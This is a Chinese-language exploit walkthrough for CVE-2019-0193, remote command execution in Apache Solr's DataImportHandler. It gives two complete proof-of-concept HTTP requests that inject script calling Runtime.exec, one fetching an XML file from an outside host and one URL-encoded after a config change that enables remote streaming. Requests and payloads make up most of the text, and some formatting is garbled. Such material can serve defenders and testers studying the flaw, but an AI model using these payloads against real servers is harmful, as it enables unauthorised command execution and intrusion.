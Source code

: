 ```yaml
---
title: （CVE-2019-0193）Apache Solr 远程命令执行漏洞
id: zhfly2826
---
```


# （CVE-2019-0193）Apache Solr 远程命令执行漏洞

## 一、漏洞简介

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。

## 二、漏洞影响

Apache Solr < 8.2.0

## 三、复现过程

### poc 一 ：需要目标出网，支持低版本检测

> 判断该索引库是否使用了DataImportHandler模块

*   访问 `http://www.0-sec.org:8983/solr/test_0nth3way/admin/mbeans?cat=QUERY&wt=json`

*   如果使用了`DataImportHandler`模块 则HTTP响应内会有: `org.apache.solr.handler.dataimport.DataImportHandler`

![1.png](../img/cc8112602ce8f8a955f207bfc2e482da.png)

*   构造HTTP请求，远程执行代码

```
POST /solr/test_0nth3way/dataimport HTTP/1.1
Host: www.0-sec.org:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.17.136:8983/solr/
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 1231
Connection: close

command=full-import&verbose=false&clean=false&commit=false&debug=true&core=test_0nth3way&name=dataimport&dataConfig=

<dataConfig>

<dataSource type=“URLDataSource”/>

<script><![CDATA[

```
 function poc(row){ 
```

var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(“id”).getInputStream()));

var result = [];

while(true) {

var oneline = bufReader.readLine();

result.push( oneline );

if(!oneline) break;

}

row.put(“title”,result.join("\n\r"));

return row;

}

]]></script>

```
 &lt;document&gt;
         &lt;entity name="entity1"
                 url="https://raw.githubusercontent.com/1135/solr_exploit/master/URLDataSource/demo.xml"
                 processor="XPathEntityProcessor"
                 forEach="/RDF/item"
                 transformer="script:poc"&gt;
                    &lt;field column="title" xpath="/RDF/item/title" /&gt;
         &lt;/entity&gt;
    &lt;/document&gt; 
```

</dataConfig> 
```

> demo.xml

> 若如上github因不可抗因素失效，可自行用自己vps搭建demo.xml

```
<?xml version="1.0" encoding="UTF-8"?>
<RDF>
<item/>
</RDF> 
```

![2.png](../img/4d4d05d5c7a79f593af9549ccc4c8a78.png)

### poc 二 ：不需要目标出网，不支持低版本检测

*   判断该索引库是否使用了`DataImportHandler`模块（同上）

*   修改`configoverlay.json`文件中的配置，以启用远程流的相关选项 （enableStreamBody、enableRemoteStreaming） 注：某些低版本会不成功，即响应500；成功响应200

```
POST /solr/test_0nth3way/config HTTP/1.1
Host: www.0-sec.org:8983
Accept: */*
Content-type:application/json
Content-Length: 159
Connection: close `{“set-property”: {“requestDispatcher.requestParsers.enableRemoteStreaming”: true}, “set-property”: {“requestDispatcher.requestParsers.enableStreamBody”: true}}` 
```

*   构造HTTP请求，远程执行代码

```
POST /solr/test_0nth3way/dataimport?command=full-import&verbose=false&clean=false&commit=false&debug=true&core=test_0nth3way&name=dataimport&dataConfig=%3c%64%61%74%61%43%6f%6e%66%69%67%3e%0a%3c%64%61%74%61%53%6f%75%72%63%65%20%6e%61%6d%65%3d%22%73%74%72%65%61%6d%73%72%63%22%20%74%79%70%65%3d%22%43%6f%6e%74%65%6e%74%53%74%72%65%61%6d%44%61%74%61%53%6f%75%72%63%65%22%20%6c%6f%67%67%65%72%4c%65%76%65%6c%3d%22%54%52%41%43%45%22%20%2f%3e%0a%0a%20%20%3c%73%63%72%69%70%74%3e%3c%21%5b%43%44%41%54%41%5b%0a%20%20%20%20%20%20%20%20%20%20%66%75%6e%63%74%69%6f%6e%20%70%6f%63%28%72%6f%77%29%7b%0a%20%76%61%72%20%62%75%66%52%65%61%64%65%72%20%3d%20%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%42%75%66%66%65%72%65%64%52%65%61%64%65%72%28%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%49%6e%70%75%74%53%74%72%65%61%6d%52%65%61%64%65%72%28%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%69%64%22%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%29%3b%0a%0a%76%61%72%20%72%65%73%75%6c%74%20%3d%20%5b%5d%3b%0a%0a%77%68%69%6c%65%28%74%72%75%65%29%20%7b%0a%76%61%72%20%6f%6e%65%6c%69%6e%65%20%3d%20%62%75%66%52%65%61%64%65%72%2e%72%65%61%64%4c%69%6e%65%28%29%3b%0a%72%65%73%75%6c%74%2e%70%75%73%68%28%20%6f%6e%65%6c%69%6e%65%20%29%3b%0a%69%66%28%21%6f%6e%65%6c%69%6e%65%29%20%62%72%65%61%6b%3b%0a%7d%0a%0a%72%6f%77%2e%70%75%74%28%22%74%69%74%6c%65%22%2c%72%65%73%75%6c%74%2e%6a%6f%69%6e%28%22%5c%6e%5c%72%22%29%29%3b%0a%72%65%74%75%72%6e%20%72%6f%77%3b%0a%0a%7d%0a%0a%5d%5d%3e%3c%2f%73%63%72%69%70%74%3e%0a%0a%3c%64%6f%63%75%6d%65%6e%74%3e%0a%20%20%20%20%3c%65%6e%74%69%74%79%0a%20%20%20%20%20%20%20%20%73%74%72%65%61%6d%3d%22%74%72%75%65%22%0a%20%20%20%20%20%20%20%20%6e%61%6d%65%3d%22%65%6e%74%69%74%79%31%22%0a%20%20%20%20%20%20%20%20%64%61%74%61%73%6f%75%72%63%65%3d%22%73%74%72%65%61%6d%73%72%63%31%22%0a%20%20%20%20%20%20%20%20%70%72%6f%63%65%73%73%6f%72%3d%22%58%50%61%74%68%45%6e%74%69%74%79%50%72%6f%63%65%73%73%6f%72%22%0a%20%20%20%20%20%20%20%20%72%6f%6f%74%45%6e%74%69%74%79%3d%22%74%72%75%65%22%0a%20%20%20%20%20%20%20%20%66%6f%72%45%61%63%68%3d%22%2f%52%44%46%2f%69%74%65%6d%22%0a%20%20%20%20%20%20%20%20%74%72%61%6e%73%66%6f%72%6d%65%72%3d%22%73%63%72%69%70%74%3a%70%6f%63%22%3e%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%3c%66%69%65%6c%64%20%63%6f%6c%75%6d%6e%3d%22%74%69%74%6c%65%22%20%78%70%61%74%68%3d%22%2f%52%44%46%2f%69%74%65%6d%2f%74%69%74%6c%65%22%20%2f%3e%0a%20%20%20%20%3c%2f%65%6e%74%69%74%79%3e%0a%3c%2f%64%6f%63%75%6d%65%6e%74%3e%0a%3c%2f%64%61%74%61%43%6f%6e%66%69%67%3e HTTP/1.1
Host: www.0-sec.org:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.17.136:8983/solr/
Content-Length: 212
content-type: multipart/form-data; boundary=------------------------aceb88c2159f183f

--------------------------aceb88c2159f183f

Content-Disposition: form-data; name=“stream.body”

<?xml version=“1.0” encoding=“UTF-8”?>

<RDF>

<item/>

</RDF> `--------------------------aceb88c2159f183f–` 
```

> 注：其中dataConfig的值，URLencode之前为以下字符串

```
<dataConfig>
<dataSource name="streamsrc" type="ContentStreamDataSource" loggerLevel="TRACE" />

<script><![CDATA[

function poc(row){

var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(“id”).getInputStream()));

var result = [];

while(true) {

var oneline = bufReader.readLine();

result.push( oneline );

if(!oneline) break;

}

row.put(“title”,result.join("\n\r"));

return row;

}

]]></script> `<document>

<entity

stream=“true”

name=“entity1”

datasource=“streamsrc1”

processor=“XPathEntityProcessor”

rootEntity=“true”

forEach="/RDF/item"

transformer=“script:poc”>

<field column=“title” xpath="/RDF/item/title" />

</entity>

</document>

</dataConfig>` 
```

![3.png](../img/8c0426c1225a8e48f1254bf0ca6aa580.png)

## 参考链接

> https://www.cnblogs.com/0nth3way/p/11908763.html